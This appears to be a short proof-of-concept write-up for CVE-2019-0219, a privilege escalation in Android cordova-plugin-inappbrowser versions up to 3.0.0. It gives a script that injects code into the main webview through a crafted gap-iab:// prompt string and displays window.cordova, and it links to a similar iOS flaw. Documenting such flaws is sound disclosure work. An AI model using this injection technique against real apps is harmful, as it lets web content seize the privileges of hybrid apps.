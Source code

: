 ### Apache Cordova InAppBrowser Privilege Escalation
#### CVE-2019-0219
Versions Affected: Android cordova-plugin-inappbrowser <= 3.0.0

```
<script>
alert('InAppBrowser alert \n window.cordova = ' + JSON.stringify(window.cordova));

prompt("","gap-iab://InAppBrowser'-alert('MainWebview alert \\n window.cordova = ' + JSON.stringify(window.cordova))-'")
</script>
```

Similar vulnerability in iOS (CVE-2014-0073):  
https://www.synopsys.com/blogs/software-security/cve-2014-0073-inappbrowser-vulnerability/